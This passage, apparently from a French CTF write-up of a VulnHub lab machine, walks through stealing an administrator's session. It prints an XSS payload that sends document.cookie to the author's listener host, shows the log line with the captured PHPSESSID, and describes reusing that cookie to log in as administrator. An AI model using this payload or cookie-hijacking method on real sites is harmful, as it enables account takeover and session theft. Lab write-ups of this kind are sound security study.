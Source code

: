 On a l'impression d'avoir affaire à un véritable navigateur. Je vais donc utiliser un code JS similaire à celui du [CTF Proteus](http://devloop.users.sourceforge.net/index.php?article216/solution-du-ctf-proteus-de-vulnhub) :  

```html
<script>var img = document.createElement("img");
img.src = "http://192.168.56.1:8000/?" + encodeURI(document.cookie);
document.body.appendChild(img);</script>
```

Ce code ajoute une image au DOM dont la source est une URL qui fera fuiter le cookie de la personne chez qui le JS est exécuté.  

Ça devait fonctionner... en théorie. Malheureusement le navigateur continuait de récupérer mon *index.js* sans aller plus loin. A la place j'ai injecté directement le payload comme nom d'utilisateur sur le formulaire de login et cette fois la pèche fût bonne :  

```plain
192.168.56.9 - - [09/Dec/2021 13:09:33] "GET /?PHPSESSID=qs7j0b3ddh71ekf9lcl7nhj6eu HTTP/1.1" 200 -
```

TV5Monde
--------

Avec l'extension Firefox *Cookie Quick Manager* (mais plein d'autres font le job) j'édite la valeur du cookie ce qui me permet de me connecter au site comme si j'étais l'administrateur.  

![VulnHub worst western hotel CCTV pictures](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/wwhotel/cctv_website.png)
